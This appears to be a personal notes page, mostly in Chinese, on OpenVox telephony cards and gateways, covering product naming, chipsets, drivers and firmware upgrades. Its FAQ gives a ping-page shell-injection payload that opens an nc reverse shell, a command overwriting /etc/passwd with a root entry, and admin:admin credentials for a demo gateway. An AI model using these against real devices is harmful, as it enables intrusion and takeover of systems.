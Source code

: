 ```yaml
---
id: openvox
title: OpenVox
---
```


# OpenVox

* [OpenVox](http://www.openvox.cn/cn/)
* https://openvox.cn/pub/
* 210 vs 230
  * 230 has a longer wake width wise in the and not as steep; and the 210 has a steep shorter wake
  * The D230E/DE230E is an upgrade product of the D210E/DE210E.
* [D230E/DE230E on DAHDI User Manual](https://openvoxwiki.atlassian.net/wiki/spaces/UM/pages/917549/D230E+DE230E+on+DAHDI+User+Manual)
* http://www.openvox.cn/pub/
  * 公共文档
  * [D130/D230/D430 Series PRI Card_Datasheet](http://www.openvox.cn/pub/datasheets/English/D130_D230_D430_Series_PRI_Card_Datasheet.pdf)
* `cat /proc/interrupts`
  * 查看是否有独立中断
* 单机多卡需要时钟线
* A 卡都是附加 FXO-400, FSO-400
* D230E
  * [infineon](https://www.infineon.com/)
    * PEF 22554 HT v2.1
    * QuadFALC
    * G0624
    * Framer and LIU (Line Interface Unit) Component (FALC)
    * [Infineon Introduces 4-Line T1/E1/J1 Framer and LIU Component with Smallest Footprint and Lowest Power Consumption](https://www.infineon.com/cms/en/about-infineon/press/market-news/2002/129029.html)
  * 4x MNOVR MS1442 1443Y
  * AITRA cyclone IV
    * [Altera Cyclone® IV](https://www.altera.com.cn/products/fpga/cyclone-series/cyclone-iv/overview.html)
    * EP4CE10E17CBN
    * MALAYSIA
* 驱动下载 - https://openvox.cn/pub/drivers/dahdi-linux-complete/
* 演示网关
  * http://demo.openvox.cn:65327/
  * admin:admin

## 产品命名
* VS - VoxStack
  * 模块化系列网关
  * 支持热插拔
* AG - Analog Gateway - 模拟网关
* DGW - 数字网关
* SWG - Standalone Wireless Gateway - 独立无线网关
* GWM - Gateway Module - 网关模块
* 型号格式
  * D - Digit, B - BRI, X - 混合, G - GSM, A - Analog, V - 编码转换卡, TAP - 录音卡, WCD - G 卡的 WCDMA 扩展模块
  * E - 回声消除
  * 数字 路数 1,2,4,8,24
  * 版本 10/30, 30 是 10 的升级
  * P - PCI, E - PCIE
* GWM801O - 8口 FXO 模块
* GWM420L - 4口 LTE 模块

## 产品
- 常见芯片
  - M83241G13 - CPU Comcerto 1000
  - Altera Cyclone IV EP4CE10F17C8N - FPGA
  - asmedia asm1083 - PCIe to PCI 芯片
- E2M8HJ9DJ68P - VS 模块
  - M83241G13 - Freescale Semiconductor - NXP
    - Telecom Interface ICs C1K-LS102M 450MHz
    - IC C1K 450MHZ VOIP 448BGA
- FXS-420 v1.2 - FS42HJ1KK4UY5
  - S13215-FM
- FXO-400 v1.4 - FXODHJO2XT6L
  - 3019-FT 1718FF L0L4
  - Si3050-FT 1708EM F1Q5
- A810E v1.4 - A814HJ1DBGCZ - PCIe 卡
  - Altera Cyclone IV EP4CE10F17C8N - FPGA
  - asmedia asm1083 - PCIe to PCI 芯片
- VS-AGU-E2M0800 - VoxStack 系列 模拟网关
- VS-GGU-E2M0400 - VS 系列, GSM 网关
  - 硬件版本 Date 2012-11-09 FPGA 11 Hardware 00
  - 主板
    - RTL8316E
    - ATMLH424
- VS-GWM400
  - Quectel M35FAR01A08
  - Altera Cyclone IV EP4CE10F17C8N
  - asmedia asm1083
  - SPANSION S34ML01G200TF100 - Flash
  - CPU 是模块化接口
  - 850/900/1800/1900MHz@GSM
  - 900/2100MHz@UMTS
  - 900/1800MHz@GSM
- VS_USB-1044
  - LTE FDD: B1/B3/B5/B8
  - LTE TDD: B38/B39/B40/B41
  - TD-SCDMA: B34/B39
  - CDMA: BC0
  - WCDMA: 900/2100MHz
  - GSM: 900/1800MHz
  - Avahi - WirelessGateway _burn._tcp - 169.254.8.223
  - 支持 SIM 模块类型
    - EC20
    - M26
    - M35 - LTE 4G
    - MCU
    - SIM6320C

## M83241G13
- ARM1136 - 2 Core, 650MHz
- 敏迅科技/Mindspeed Technologies 芯片
- Mindspeed 主要提供 VoIP 领域解决方案 - DSP, LTE, Transcede
- VoIP, Security Engine, PCIe 2, RGMII 2
- SDRAM 16/32 bit DDR2-800/667/533
- L1 缓存 2x(64K D$/64K I$)
- VoIP 能力
  - Field hardened voice features
  - World class acoustic echo cancellation technology
  - Narrow and wideband codecs
  - G.711, G.729, G.722, G.723.1, iLBC, T.38, G.729.1, G.722.2, AMR, AMR Wideband
  - Enhanced echo canceller, CID-I/II, VAD/CNG, AGC
  - 3-Way conferencing
- TDM/PCM interface for glue-less VoIP support
- 2009 年

## A810

* Communication controller: OpenVox Communication Co. Ltd. Device 0810 (rev 15)
* OpenVOX电话模拟语音卡 A810E Asterisk 卡8路语音卡FXO/FXS模块化 A810E
* AE810E/AE810P [手册](https://openvox.cn/pub/misc/AE810E_AE810P_Elastix%202.0.4_User_Manual_English.pdf)

```bash
modprobe –r opvxa24xx
```

## 固件
* https://www.openvox.cn/pub/firmwares

```bash
# 升级流程
auto_update -i 1
auto_update -b u-boot.bin
auto_update -u -f AnalogGateway.img
```

## FAQ
### 获取 root 权限
1. ssh 用户名修改为 super 即可
2. ping 页面进行 shell 注入
  * `google.com;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/ash -i 2>&1|nc yourip 1234 >/tmp/f`

```bash
cat /etc/passwd
echo 'root:$6$p5UxF/96kKYh3eVj$laEQueyeV4tDJV5ASR3kj7r5X/BtXQ/PJM4dCrnAo1M8HtSlDWupG7TQQ.r1wTncK.Jze4NNa9UN37wvT0L/L/:0:0:root:/tmp:/bin/bash' > /etc/passwd
```

### torybox 工具包

```bash
wget https://landley.net/toybox/downloads/binaries/latest/toybox-$(uanem -m)
```

### clone system

```bash
ssh -p 12345 root@192.168.99.1 'cd /etc; tar cf - ./' | tar xvf - -C etc
```

### fix local perm

```bash
find . -type d | xargs chmod 0744
find . -type f | xargs chmod 0644
```
